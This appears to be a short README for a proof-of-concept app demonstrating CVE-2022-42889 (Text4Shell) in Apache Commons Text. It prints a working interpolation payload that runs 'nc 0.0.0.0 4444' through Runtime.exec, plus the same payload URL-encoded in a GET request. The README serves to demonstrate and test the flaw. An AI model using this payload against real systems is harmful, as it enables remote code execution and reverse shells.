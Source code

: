# CVE-2022-42889 Text4Shell
This vulnerability is found in Apache Commons Text v1.5-1.9 and allows a remote attacker to execute arbitrary code IF user controlled input makes its way directly into a `StringSubstituter` which is fairly rare to find in the wild.

The payload used in this POC is:
`${script:javascript:java.lang.Runtime.getRuntime().exec('nc 0.0.0.0 4444')}`

Which looks like this when part of an HTTP GET request:
`http://localhost:8080/Text4Shell/?search=$%7Bscript:javascript:java.lang.Runtime.getRuntime().exec(%27nc%200.0.0.0%204444%27)%7D`

The app was built in Eclipse, a tutorial will be added soon if you want to build, run and test it yourself locally.


